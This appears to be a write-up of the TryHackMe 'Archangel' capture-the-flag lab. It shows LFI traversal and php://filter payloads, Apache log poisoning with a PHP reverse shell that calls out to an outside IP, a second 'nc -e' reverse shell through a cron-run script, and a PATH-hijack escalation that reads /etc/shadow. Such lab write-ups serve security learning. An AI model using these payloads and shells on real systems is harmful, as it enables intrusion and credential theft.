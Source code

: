 #LFI #path #suid

https://tryhackme.com/r/room/archangel

---
#### Nmap
![[Screenshot_2024-06-10_17-52-14.png]]

~~There is a fake flag leading to a rickroll in `/flags/flag.html`, nothing else but the redirection on the file~~

~~The `/layout`, `/images` and `/pages` have blank page, so I should enum them~~

There was a domain `mafialive.thml` on the main page, I had to add it in my `/etc/hosts` and I go redirected to a blank page with the first flag

Then I found `/test.php` with an lfi vulnerability

I read the `/test.php` file with the php wrapper to know how to bypass the filters
```text
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

I am able to find `/etc/passwd` with the following payload
```text
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//etc/passwd
```

Ok I fuzzed the lfi vulnerability with a new seclist wordlist
```shell
ffuf -u 'http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//../FUZZ' -w /usr/share  
/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fs 286,310
```

It gave me access to log file and it was bugged like during my tech talk, impossible to open `/var/log/apache2/access.log` until I restarted the target's machine.
Once I restarted I used netcat to send my payload
```shell
nc 10.10.117.226 80
<?= `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.79.56 9001 >/tmp/f` ?>
```

And I triggered my reverse shell by going on
```text
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log
```

And here I m in

Earlier, I've found an `archangel` (the user) script executed by crontab so I gave me full permissions on his home's directory
```shell
chmod -R 777 /home/archangel
```

Better than that, I can setup a reverse shell and connect as `archangel` throught the `/opt/helloworld.sh`:
```shell
echo 'import os' > /tmp/t.v && echo 'fn main() { os.system("nc -e sh 10.14.79.56 9002 0>&1") }' >> /tmp/t.v && v run /tmp/t.v && rm /tmp/t.v
```

I used the Baron 2 CVE to escalate root

Another way to privesc is to create a `cp` file and change `archangel`'s $PATH to make it executable
The new `cp` file in `/home/archangel/secret`:
```shell
#!/bin/bash
cat /etc/shadow /tmp/shadow
```

Then replace the path
```shell
export PATH=$PWD:$PATH
```

And then execute the `backup` file 
